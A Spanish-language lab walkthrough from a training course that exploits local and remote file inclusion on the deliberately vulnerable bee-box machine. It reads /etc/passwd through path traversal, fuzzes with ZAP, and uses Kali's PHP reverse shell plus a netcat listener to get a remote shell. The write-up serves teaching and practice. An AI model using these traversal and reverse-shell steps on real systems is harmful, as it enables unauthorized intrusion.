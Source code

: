 ```yaml
---
title: MTD - File Inclusion
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Dificil]
---
```



¡Hola! 
Hoy vamos a realizar el primer ejercicio del módulo de Hacking de aplicaciones Web, trabajando sobre la máquina `beebox`.
En este ejercicio realizaremos un `File inclusion`.

### Herramientas usadas: 
- **OWAS-ZAP Proxy**
- **Fuzz**
- **Scripting**


* * *

# PRIMEROS PASOS
En primer lugar usaremos `OWAS-ZAP` como proxy para indexar las páginas web y poder realizar un análisis más detallado.
La herramienta viene preinstalada en nuestro `kali linux` por lo tanto solamente tendriamos que abrirlo desde el gestor de aplicaciones y acto seguido configurar el `proxy` en nuestro navegador.

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110245804964315297/proxy.png?width=1193&height=575">

Acto seguido pasamos entrar a la web de nuestro máquina `bee-box`, en nuestro caso tendríamos la IP 10.0.2.5.


Como podemos ver en este `login` tenemos las credenciales ya dadas, en este caso `bee` de usuario y `bug` como contraseña.
Dentro de la aplicación web podemos encontrar en el apartado `A7` el ejercicio de `Remote & Local File Inclusion (RFI/LFI)`.
<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246169310937119/intro.png?width=1077&height=589">

* * * 

# EN LA APLICACIÓN WEB
Una vez dentro de la aplicación web podemos ver un selector de lenguajes, a simple vista parece algo simple.


Cuando seleccionamos un lenguaje, podemos ver que la URL de nuestra aplicación web cambia. 
Esto sería un vacío donde podriamos realizar nuestras técnicas de intrusión.

Observamos que dentro del link añade una particularidad, `?language=lang_en.php` donde podemos comenzar a intentar escalar privilegios usando `../../etc/passw` para subir entre carpetas dentro del servidor web y podriamos ver si nos devuelve el fichero sensible.

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246354879533207/etc_pass.png?width=1090&height=589">

Si analizamos el código fuente de la aplicación web, podemos ver que nos ha devuelto el fichero completo con sus directorios y nombres de usuario

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246460185907280/codigo_fuente.png?width=966&height=589">

Esta información podemos usarla para aplicarle ténicas de `fuzzing` con `OWAS-ZAP`. Eso lo veremos en el siguiente paso.

* * *

# USO DE LA APLICACIÓN
La aplicación que vamos a usar es `OWAS-ZAP` con técnicas de `fuzzing` cargando diccionarios, en este caso usaremos el diccionario del repositorio `AllPayloadThings` usando el fichero de `File Inclusion`

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246521154318436/usopayload.png?width=926&height=589">

Una vez configurado el fichero que vamos a usar, lanzamos el fuzzer y analizaremos los datos hallados.
Podemos observar en el `Fuzzed 7` un fichero `etc/apache2/` lo que podría hacernos ver una apertura de seguridad muy seria.

En nuestra máquina kali linux tenemos el repositorio de `webshells` con la cual podemos hacer una `shell` remota hacia nuestra máquina aprovechando la vulnerabilidad del servidor apache.

```bash
cd /usr/share/webshells/php
```

Usaremos el repositorio `php` ya que sabemos que el motor de la aplicacion web está en el lenguaje `php`.
Dentro del directorio podremos encontrar diferentes tipos de webshell a usar. Nosotros cargaremos una `reverseshell`.
En este caso tendremos que revisar el source code del fichero para configurar la dirección IP y puerto que usaremos.

```bash
nano php-reverse-shell.php
```
Una vez configurado nuestro archivo, tenemos que copiar en el directorio `/var/www/html`.

```bash
cp php-reverse-shell.php /var/www/html
```
Una vez configurado nuestro fichero a usar, podremos proceder a colocar nuestro enlace, previamente iniciando un servicio de apache2 y poniendo nuestra máquina a la escucha y cargaremos nuestra webshell desde el mismo link de la aplicación web.

```bash
service apache2 start
```

```bash
nc -lvnp 44044
```

Probaremos con cargar dentro del URL de la aplicación web nuestra `webshell` 

`http://nuestraIPdelamáquina/php-reverse-shell.php`

Y cuando vayamos hacia nuestra `shell` podremos observar que hemos conectado una remote shell hacia nuestra máquina y estamos dentro de la máquina `beebox`.

```bash
whoami
```
Podemos observar que estamos en el directorio /home/root/ de `beebox`



* * *

*__Esto es un ejercicio con fines didácticos realizado para MasterD.__*
